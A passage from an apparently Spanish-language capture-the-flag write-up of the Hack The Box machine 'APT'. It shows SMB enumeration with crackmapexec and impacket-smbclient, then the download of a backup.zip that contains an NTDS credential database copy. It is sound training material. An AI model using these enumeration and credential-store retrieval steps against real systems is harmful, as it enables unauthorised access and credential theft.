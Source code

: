 ```null
|_  start_date: 2023-01-24T08:30:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.65 seconds
```

## Puerto 445 (SMB)

Con crackmapexec, aplico un escaneo para ver la versión, dominio y hostname de la máquina

```null
crackmapexec smb APT
SMB         APT             445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
```

Agrego el domino al /etc/hosts, pero apuntando también la dirección IPV6

Con impacket-smbclient, listo los recursos compartidos a nivel de red

```null
impacket-smbclient APT
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
backup
IPC$
NETLOGON
SYSVOL
```

Listo lo que hay dentro del directorio backup

```null
# use backup
# ls
drw-rw-rw-          0  Thu Sep 24 07:31:03 2020 .
drw-rw-rw-          0  Thu Sep 24 07:31:03 2020 ..
-rw-rw-rw-   10650961  Thu Sep 24 07:31:03 2020 backup.zip
```

Me descargo el comprimido

```null
# get backup.zip
# exit
```

Dentro tiene una copia del NTDS

```null
7z l backup.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,128 CPUs Intel(R) Core(TM) i7-10750H CPU @ 2.60GHz (A0652),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10650961 bytes (11 MiB)

Listing archive: backup.zip

--
Path = backup.zip
Type = zip
Physical Size = 10650961

   Date      Time    Attr         Size   Compressed  Name
```